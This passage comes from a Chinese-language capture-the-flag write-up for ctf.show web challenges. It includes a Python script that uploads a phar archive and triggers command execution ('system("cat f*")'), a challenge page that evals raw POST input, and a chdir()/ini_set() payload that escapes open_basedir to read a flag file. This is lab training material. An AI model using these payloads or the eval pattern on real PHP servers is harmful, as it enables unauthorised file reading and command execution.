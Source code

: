 ```php
$phar->addFromString("a.txt", "123"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

上传，利用：

```python
import requests
url="http://41a1cf31-474d-4f62-8a18-49921eceeb33.challenge.ctf.show/"
requests.post(url,data={'file':'/tmp/a.phar','content':open('a.phar','rb').read()})
r=requests.post(url,data={'file':'phar:///tmp/a.phar/a','content':'123','1':'system("cat f*");'})
print(r.text)
```

## 805-open_basedir绕过

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);

eval($_POST[1]);

```

说是要绕open_basedir，那先phpinfo看一下：

- open_basedir：`/var/www/html`
- disable_functions：system,exec,shell_exec,passthru,popen,fopen,popen,pcntl_exe

参考：

[浅谈几种Bypass open_basedir的方法 - Hookjoy - 博客园 (cnblogs.com)](https://www.cnblogs.com/hookjoy/p/12846164.html)

(ps:这里只尝试了2个方法，还有只能罗列根目录和open_basedir允许目录的glob://协议)

> open_basedir对命令执行函数没有限制，但是这里disable_function把命令执行函数ban了

### 利用chdir()与ini_set()绕过

```
1=
mkdir('hhh');chdir('hhh');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('/ctfshowflag');
```
